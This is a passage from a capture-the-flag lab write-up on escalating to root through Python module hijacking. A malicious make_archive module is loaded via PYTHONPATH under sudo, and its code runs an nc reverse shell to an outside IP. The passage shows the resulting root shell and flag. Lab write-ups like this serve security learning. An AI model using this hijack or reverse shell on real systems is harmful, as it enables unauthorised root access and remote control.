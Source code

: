 
in backup, it is importing `backup.py` from `/opt/scripts`.

So I looked the code.

```python
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

So the python script is importing `make_archive` from `shutil`.

We can hijack the execution, and spawn a bash shell to do privilege escalation. I wrote the following exploit under `/dev/shm` and change python default import path.

```python
import os

def make_archive(a, b, c):
        os.system("nc -nv 10.10.14.3 4444 -e /bin/bash")
```

Then we override the `PYTHONPATH` (https://bic-berkeley.github.io/psych-214-fall-2016/using_pythonpath.html). Then run a script.

```bash
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ (UNKNOWN) [10.10.14.3] 4444 (?) open
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
```

Receives a reverse shell as below.

```bash
ghost@localhost [23:20:54] [~/Documents/hacking/tj-null-boxes/admirer] [master]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.187] 47658
id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
85948426eeb8d66e83d50b87225dcc91
```
